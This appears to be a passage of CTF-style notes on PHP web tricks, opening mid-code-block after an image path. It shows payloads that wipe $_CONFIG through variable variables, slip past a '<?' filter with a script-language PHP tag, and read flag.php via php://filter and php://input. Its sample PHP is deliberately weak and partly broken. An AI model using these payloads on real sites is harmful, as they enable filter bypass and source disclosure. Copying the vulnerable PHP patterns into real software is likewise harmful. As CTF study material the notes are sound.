 ```shell=
	}
    echo "pass";
};
waf();
?>
```
`pass`

**Problem of $$**

```shell=
// http://127.0.0.1/index.php?_CONFIG=123
$_CONFIG['extraSecure'] = true;
 
foreach(array('_GET','_POST') as $method) {
    foreach($$method as $key=>$value) {
      // $key == _CONFIG
      // $$key == $_CONFIG
      // this will destory $_CONFIG 
      unset($$key);
    }
}
 
if ($_CONFIG['extraSecure'] == false) {
    echo 'pass';
}
```
`pass`

**Problem of `<?` deector**

Detect on `<?` can be bypassed by `<script language="php">`.
```
<?php  
    //$_GET['q'] = '<?123123';
    if(strpos($_GET['q'],"<?")>=0)
        echo 'bad'.strpos($GET,'<?');
        exit();
    else
        echo 'good'.strpos($GET,"<?");
        echo $_GET['q'];
?>
```
```
q=
<script language="php">
base64_encode(file_get_contents('flag.php'));
</script>
```

**Problem of php://filter**

Read file.
```shell=
#AIS3 2017 pre-exam Web 3
/test.php?file=php://filter/convert.base64-encode/resource=flag.php
/test.php?file=php://filter/read=convert.base64-encode/resource=flag.php
```

**Problem of php://input**

Pass something.
```shell=
/test.php?file=php://input
```
